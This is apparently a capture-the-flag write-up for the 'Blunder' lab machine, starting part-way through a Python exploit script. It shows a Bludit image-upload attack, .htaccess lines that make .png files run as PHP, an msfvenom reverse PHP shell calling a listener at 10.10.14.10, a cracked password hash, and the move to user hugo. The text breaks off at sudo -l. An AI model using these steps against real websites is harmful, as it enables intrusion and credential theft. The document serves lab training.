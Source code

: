               "X-Requested-With":"XMLHttpRequest",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer":url + "/admin/new-content",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate",
    }
    cookies = {"BLUDIT-KEY":cookie}
    response = session.post(url + "/admin/ajax/upload-images", data=data, files=files, headers=headers, cookies=cookies)
    print("Uploading payload: " + payload)

if __name__ == "__main__":
    cookie = login(url, username, password)
    token = get_csrf_token(url, cookie)
    upload_evil_image(url, cookie, token, payload, True)
    upload_evil_image(url, cookie, token, payload2)
```
reading the script found that we had  to create a .htaccess file
```
 echo "RewriteEngine off" > .htaccess
 echo "AddType application/x-httpd-php .png" >> .htaccess
```
and also a php payload with png extension
```
msfvenom -p php/reverse_php LHOST=10.10.14.10 LPORT=1234 -f raw > evil.png

echo -e "<?php $(cat evil.png)" > evil.png
```
Now ran the script the file got uploaded to
http://10.10.10.191/bl-content/tmp/temp/evil.png

and in our terminal we listen with nc to get the www-data shell

#priviledge-escalation 
Do use ```rlwrap nc -lnvp 1234```
otherwise you are doomed and ur terminal  willl be apparently doing nothing not even ls

Now we had user hugo and shaun
Now while checking the /var/www
I found two version of bludit
```bludit-3.10.0a & bludit-3.9.2```
The one we exploited was 3.9.2 so let's check the otherone
there I got a users.php file in /var/www/bludit-3.10.0a/bl-content/databases and we had 
```
"nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
```
hash for user hugo
appears crackable
and used crackstation to crack it
**Password120**
Now escalated to hugo with su using the password
#rootescalation 
now do sudo -l
```
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

